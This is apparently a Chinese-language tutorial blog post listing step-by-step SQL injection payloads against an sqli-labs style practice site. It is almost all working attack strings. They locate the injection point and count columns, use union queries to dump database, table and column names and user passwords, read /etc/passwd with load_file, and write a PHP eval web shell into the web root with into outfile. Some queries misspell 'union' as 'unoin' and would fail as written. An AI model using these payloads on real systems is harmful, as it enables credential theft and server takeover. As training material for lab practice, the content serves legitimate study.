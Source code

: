 ```yaml
---
title: SQL注入步骤
date: 2021-07-22 11:20:00
categories: 
    - 网络安全
tags: 
    - Web
    - SQL
mp3: 
cover: img/bg5.jpeg
---
```




## SQL注入漏洞

### 1、找注入点（' " ) ))）

select * from users where id ='1'#' limit 0,1;
http://d1e1c384.yunyansec.com/Less-1/?id=1'#

### 2、判断是否存在注入

select * from users where id ='1' and 1=1#' limit 0,1;
select * from users where id ='1' and 1=2#' limit 0,1;

### 3、判断列数

select * from users where id ='1' order by 3#' limit 0,1;

### 4、判断显示位

select * from users where id ='-1' union select 1,2,3#' limit 0,1

### 5、爆用户、爆库

select * from users where id ='-1' union select 1,user(),3#' limit 0,1
http://d1e1c384.yunyansec.com/Less-1/?id=-1' union select 1,user(),database()--+

### 6、爆数据表名

group_concat()
select * from users where id ='-1' unoin select 1,user(),table_name from information_schema.tables where table_schema="security" limit 0,1#' limit 0,1;

### 7、爆数据列名

select * from users where id ='-1' unoin select 1,user(),group_concat(column_name) from information_schema.columns where table_name="users"#' limit 0,1;
http://1c96113c.yunyansec.com/Less-1/?id=-1' union select 1,user(),group_concat(column_name) from information_schema.columns where table_name="users"--+

### 8、获取数据

select * from users where id ='-1' unoin select 1,user(),group_concat(id,username,password) from users#' limit 0,1;

### 9、读取服务器敏感文件

load_file("/etc/passwd")
?id=-1' union select 1,2,load_file("/etc/passwd")%23
10、获取服务器权限，写入木马
?id=-1' union select 1,2,'<?php eval(\$_POST[123]);?>' into outfile '/var/www/html/2.php'%23

select * from users where uname='admin'#' and passwd='123456'